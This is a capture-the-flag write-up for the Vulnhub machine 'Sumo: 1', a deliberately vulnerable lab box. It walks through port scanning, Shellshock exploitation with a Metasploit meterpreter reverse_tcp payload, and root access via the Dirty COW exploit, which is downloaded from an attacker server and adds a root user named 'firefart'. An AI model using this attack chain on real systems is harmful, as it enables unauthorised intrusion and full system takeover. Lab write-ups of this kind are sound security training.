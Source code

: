 # Sumo:1 ~Vulnhub Writeup
It is an boot2root challenge of the Vulnhub machine “Sumo: 1”. An intermediate box based on the Linux machine.

Machine Name: Sumo_Sun*
- Author: SunCSR Team
- Difficulty: Beginner
- Tested: VMware Workstation 15.x Pro
- DHCP: Enabled
- Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).

## SCANNING

Scanning port using nmap 

**nmap target-ip**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled.png)

Service version and aggressive scan

**nmap -sV -A target-ip**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%201.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%201.png)

## Enumeration

Lets open target-ip in web browser

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%202.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%202.png)

Running  nikto on target-ip

**nikto -h target-ip**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%203.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%203.png)

Nikto found that application is vulnerable to shellshock.

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%204.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%204.png)

## Exploitation

After some research i found shellshock exploit in metasploit.

open msfconsole and search shellshock

**use exploit/multi/http/apache_mod_cgi_bash_env_exec** 

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%205.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%205.png)

**set payload Linux/x86/meterpreter/reverse_tcp**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%206.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%206.png)

**set rhosts target-ip**

**set targeturi /cgi-bin/test**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%207.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%207.png)

**exploit**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%208.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%208.png)

We got meterpreter shell of target system.

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%209.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%209.png)

## Privilege escalation

Download dirtycow script from attacker server

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2010.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2010.png)

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2011.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2011.png)

compile script using command    **gcc -pthread -o exp exploit.c -lcrypt**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2012.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2012.png)

give execute permission to exp

**chmod 777 exp**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2013.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2013.png)

run script using command   (This script will pwn root user as firefart)

**./exp 0    (here 0 is password)**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2014.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2014.png)

Lets connect through ssh

**ssh firefart@target-ip**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2015.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2015.png)

open /etc/passwd

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2016.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2016.png)

change firefart to root

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2017.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2017.png)

Then again connect with ssh as root user now

**ssh root@192.168.122.137**

![Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2018.png](Sumo%201%20Vulnhub%20Writeup%2006c3ecf6e7354c8694a7e1014ff86f4b/Untitled%2018.png)

Got root flag in root.txt file
